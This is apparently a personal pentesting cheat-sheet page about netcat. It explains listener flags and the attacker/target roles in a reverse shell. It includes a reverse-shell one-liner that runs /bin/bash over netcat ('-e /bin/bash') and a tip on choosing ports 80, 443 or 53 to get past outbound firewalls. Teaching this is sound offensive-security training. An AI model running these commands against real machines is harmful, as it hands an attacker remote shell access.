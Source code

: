 ## Netcat (The Neko)
​
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques.
​
​
### Reverse Shells

#### Listener (Attacker Machine)

>[!Success] Basics
>```
>nc -lvnp {port}
>```

- -l is used to tell netcat that this will be a listener
- -v is used to request a verbose output
- -n tells netcat not to resolve host names or use DNS
- -p indicates that the port specification will follow

​
Be aware that if you choose to use a =={*port*}== below 1024, you will need to use ==sudo== when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.
​
​
#### Talker (Target Machine)

##### Linux & ¿Windows?

>[!Tip] Basics
>```
>nc {local IP} {local port}
>```

​
>[!Danger] With Payload integrated
>```
>nc {local IP} {local port} -e /bin/bash
>```

​
==-e== option which allows you to execute a process on connection
​
This ==With Payload integrated== is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly.
​
